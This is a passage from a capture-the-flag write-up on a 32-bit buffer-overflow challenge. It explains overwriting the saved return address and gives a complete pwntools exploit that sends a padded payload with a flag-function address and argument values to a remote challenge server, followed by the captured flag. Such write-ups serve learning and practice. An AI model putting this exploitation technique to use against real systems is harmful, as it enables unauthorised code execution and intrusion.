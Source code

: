
As you can see, the "xaab" is right after the "waab", but here the "xaab" isn't the value of `a1`. That's because when a function is called (like flag() in this case), the current return address is pushed onto the stack so that the program can return after executing the function. So we need to cover that return address. Since it's a 32-bit ELF, I use `p32()`. By doing so, the `EIP` will pointing to this address we cover. But the thing inside the `p32` can be anything though since it's just a placeholder to make sure the program won't crash. Here's the finall exploit.

```python
from pwn import *

offset = 188
flag_addr = 0x080491E2
payload = b"A" * offset + p32(flag_addr) + p32(1337) + p32(0xDEADBEEF) + p32(0xC0DED00D)

r = remote("94.237.53.53", 56739)
r.sendline(payload)
r.interactive()
```

# 0x03 Pwned

```txt
HTB{0ur_Buff3r_1s_not_healthy}
```

Although I found the flag, I searched for a lot of writeups during the challenge. And I don't think I totally understand the whole concept of this challenge, probably just about 80% only. I'll keep leaning new stuff and reviewing things I learned, hope one day I can entirely understand this challenge. And that day, I will be back here and try to fix everything wrong in this article.
